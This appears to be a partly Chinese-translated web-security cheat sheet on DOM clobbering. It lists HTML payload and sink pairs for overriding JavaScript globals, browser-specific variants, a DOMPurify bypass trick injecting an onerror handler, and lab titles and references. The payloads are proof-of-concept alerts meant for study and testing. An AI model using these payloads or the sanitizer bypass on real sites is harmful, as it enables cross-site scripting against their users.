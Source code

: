# DOM Clobbering（DOM劫持）

> DOM劫持是一种技术，通过使用某些ID或名称命名HTML元素，可以覆盖或“劫持”全局变量。这可能导致脚本中的意外行为，并可能引发安全漏洞。

## 概述

- 实验室
- 利用
- 参考资料

## 实验室

- 实验室：利用DOM劫持实现XSS
- 实验室：通过劫持DOM属性绕过HTML过滤器
- 实验室：受CSP保护的DOM劫持测试用例

## 利用

利用需要在页面中进行任何类型的`HTML注入`。

- 劫持`x.y.value`

```html
// Payload
<form id=x><output id=y>I've been clobbered</output>

// Sink
<script>alert(x.y.value);</script>
```

* ```markdown
    使用ID和name属性一起劫持`x.y`，形成一个DOM集合
    ```

    ```html
    // Payload
    <a id=x><a id=x name=y href="Clobbered">
    
    // Sink
    <script>alert(x.y)</script>
    ```

* 劫持`x.y.z` - 三级深度
    ```html
    // Payload
    <form id=x name=y><input id=z></form>
    <form id=x></form>
    
    // Sink
    <script>alert(x.y.z)</script>
    ```

* 劫持`a.b.c.d` - 超过三级

    ```html
    // Payload
    <iframe name=a srcdoc="
    <iframe srcdoc='<a id=c name=d href=cid:Clobbered>test</a><a id=c>' name=b>"></iframe>
    <style>@import '//portswigger.net';</style>
    
    // Sink
    <script>alert(a.b.c.d)</script>
    ```

* Clobbering `forEach` (Chrome only)
    ```html
    // Payload
    <form id=x>
    <input id=y name=z>
    <input id=y>
    </form>
    
    // Sink
    <script>x.y.forEach(element=>alert(element))</script>
    ```

* Clobbering `document.getElementById()` using `<html>` or `<body>` tag with the same `id` attribute
    ```html
    // Payloads
    <html id="cdnDomain">clobbered</html>
    <svg><body id=cdnDomain>clobbered</body></svg>


    // Sink 
    <script>
    alert(document.getElementById('cdnDomain').innerText);//clobbbered
    </script>
    ```

* Clobbering `x.username`
    ```html
    // Payload
    <a id=x href="ftp:Clobbered-username:Clobbered-Password@a">
    
    // Sink
    <script>
    alert(x.username)//Clobbered-username
    alert(x.password)//Clobbered-password
    </script>
    ```

* Clobbering (Firefox only)
    ```html
    // Payload
    <base href=a:abc><a id=x href="Firefox<>">
    
    // Sink
    <script>
    alert(x)//Firefox<>
    </script>
    ```

* Clobbering (Chrome only)
    ```html
    // Payload
    <base href="a://Clobbered<>"><a id=x name=x><a id=x name=xyz href=123>
    
    // Sink
    <script>
    alert(x.xyz)//a://Clobbered<>
    </script>
    ```


## Tricks

* DomPurify allows the protocol `cid:`, which doesn't encode double quote (`"`): `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">`


## References

* [Dom Clobbering - PortSwigger](https://portswigger.net/web-security/dom-based/dom-clobbering)
* [Dom Clobbering - HackTricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering)
* [DOM Clobbering strikes back - @garethheyes - 06 February 2020](https://portswigger.net/research/dom-clobbering-strikes-back)
* [Hijacking service workers via DOM Clobbering - @garethheyes - 29 November 2022](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)
* [Bypassing CSP via DOM clobbering - @garethheyes - 05 June 2023](https://portswigger.net/research/bypassing-csp-via-dom-clobbering)